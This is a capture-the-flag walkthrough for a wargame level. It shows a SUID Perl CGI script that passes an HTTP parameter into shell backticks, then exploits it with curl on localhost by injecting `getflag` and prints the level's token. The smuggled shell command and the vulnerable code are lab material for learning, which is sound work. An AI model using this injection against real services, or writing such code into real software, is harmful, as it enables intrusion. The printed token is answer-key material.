 ### Solution

1. **List files in the home directory:**

	```bash
	ls -l
	```

	You’ll see the following SUID Perl script:

	```
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
	```

	This script is **owned by `flag04`** and **has the SUID bit set**, meaning it executes with `flag04`'s privileges when run — even from a web request.

2. **Analyze the script source code.**

	View the script:

	```bash
	cat level04.pl
	```

	You’ll find:

	```perl
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	$y = $_[0];
	print `echo $y 2>&1`;
	}
	x(param("x"));
	```

	The script:

	* Imports `param()` from the CGI module to read HTTP parameters.
	* Passes the user input **directly into backticks**, which runs it as a shell command.
	* This results in a classic **command injection vulnerability**.

3. **Exploit the vulnerable CGI parameter.**

	You can interact with the web service locally using `curl`:

	```bash
	curl 'http://localhost:4747/level04.pl?x=hello'
	```

	Output:

	```
	hello
	```

	This proves it’s executing `echo hello`.

	Now inject a shell command:

	```bash
	curl 'http://localhost:4747/level04.pl?x=`getflag`'
	```

	Output:

	```
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
	```

	You’ve successfully executed `getflag` with `flag04`’s privileges.
